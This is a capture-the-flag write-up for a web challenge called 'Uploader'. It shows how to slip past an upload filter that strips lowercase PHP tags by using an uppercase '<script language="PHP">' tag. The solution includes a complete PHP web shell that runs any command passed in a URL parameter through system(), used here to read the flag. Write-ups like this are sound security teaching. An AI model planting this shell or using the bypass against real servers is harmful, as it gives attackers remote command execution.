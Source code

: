 # Uploader (Web, 100pts)

---

## Problem

This uploader deletes all /<\?|php/. So you cannot run php.

http://recocta.chal.mmactf.link:9080/
http://recocta.chal.mmactf.link:9081/ (Mirror 1)
http://recocta.chal.mmactf.link:9082/ (Mirror 2)
http://recocta.chal.mmactf.link:9083/ (Mirror 3)

You can only upload files whose name is matched by /^[a-zA-Z0-9]+\.[a-zA-Z0-9]+$/.

## Solution

Web page contains only one simple upload form:

![Uploader task]
(https://github.com/bl4de/ctf/blob/master/2015/MMACTF_2015/uploader1.png)

Each file is accesible after uploading, so we can try to upload some simple shell to find the flag, which should be placed somewhere on the server.

As we can't use regular PHP script tags, so we have to find another way to upload PHP shell and execute it.
We can use _script_ tag with language set to PHP (we are using uppercases here as lower cases are deleted):
	
```html
<!-- 
file: blade.php
https://github.com/bl4de/ctf/blob/master/MMACTF_2015/blade.php
-->

<form action="" method="get"><textarea name="c" rows="10" cols="80">
	<script language="PHP"> 
		if (isset($_GET['c'])) {echo $_GET['c'];}
	</script>
</textarea><button type="submit">go</button></form><hr /><div><p>Result of <strong>
	<script language="PHP"> 
		if(isset($_GET['c'])){echo $_GET['c'];}
	</script>
</strong></p><pre>

<script language="PHP"> 
	$output="";if (isset($_GET['c'])){$output=@system($_GET['c']);};
</script>
</pre>
</div>	
```

This won't work in the future versions of PHP, as from PHP 7 ASP tags and _script_ tags will be removed.


After uploading the shell, let's take a look around:

![ls -lA executed in /]
(https://github.com/bl4de/ctf/blob/master/2015/MMACTF_2015/uploader2.png)

We can see file named _flag_ in the root directory of the server.

We can execute _cat flag_ command via the shell and catch the flag:

![Flag]
(https://github.com/bl4de/ctf/blob/master/2015/MMACTF_2015/uploader3.png)


## Links

http://php.net/manual/en/language.basic-syntax.phptags.php
